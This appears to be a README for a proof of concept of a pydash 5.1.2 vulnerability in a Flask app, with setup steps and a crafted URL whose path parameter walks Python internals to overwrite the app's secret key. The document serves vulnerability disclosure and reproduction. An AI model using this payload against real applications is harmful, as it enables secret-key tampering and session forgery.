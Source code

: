 
**Instructions for pydash 5.1.2 and flask PoC**

**Prerequisites:** python3.x, pip

* create a python virtualenv if you don't want to taint your python installation with vulnerable packages, for example:
    1. python3 -m venv env
    2. source /env/bin/activate
* install vulnerable packages in the environment
    1. pip install -r requirements.txt 
* run the proof of concept
    1. python3 pydash_poc_5.1.2.py
* run flask proof of concept
    1. flask --debug --app flask_poc.py run
    2. open browser and enter following url: <http://127.0.0.1:5000/?path=__class__.__init__.__globals__.app.secret_key&val='1337'>
    3. result will be printed in the terminal window running the flask server
